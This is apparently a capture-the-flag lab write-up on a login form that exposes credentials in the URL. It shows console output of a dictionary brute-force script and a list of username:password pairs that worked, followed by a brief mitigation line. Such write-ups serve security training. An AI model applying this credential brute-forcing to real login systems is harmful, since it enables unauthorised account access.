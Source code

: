 # Exploit

If we try to log in with a random username and password, we land on a "wrong answer" page, with the username and password appearing in cleartext in the URL.

![](Ressources/images/wrong-answer.jpg)

With a python script, let's try the most common usernames and passwords:

```
[darkly@darkly] ~/08-plain-text_password_in_url/Ressources # python3 brute-force.py
try root:password...
try root:123456...
try root:12345678...
try root:abc123...
try root:querty...
try root:monkey...
try root:letmein...
try root:dragon...
try root:111111...
try root:baseball...
try root:iloveyou...
try root:trustno1...
try root:1234567...
try root:sunshine...
try root:master...
try root:123123...
(...)
```

If we display the file where successful combinations are found, we see there were many options:

```
[darkly@darkly] ~/08-plain-text_password_in_url/Ressources # cat found.txt
root:shadow
admin:shadow
user:shadow
test:shadow
ubuntu:shadow
ubnt:shadow
support:shadow
oracle:shadow
pi:shadow
guest:shadow
postgres:shadow
ftpuser:shadow
usuario:shadow
nagios:shadow
1234:shadow
ftp:shadow
operator:shadow
git:shadow
hadoop:shadow
ts3:shadow
administrator:shadow
Administrator:shadow
user1:shadow
alex:shadow
pos:shadow
demo:shadow
root:shadow
db2admin:shadow
Admin:shadow
sql:shadow
```

All that remains is to log in with one of these to get the flag.

# Mitigating the risk

Prevent insecure passwords
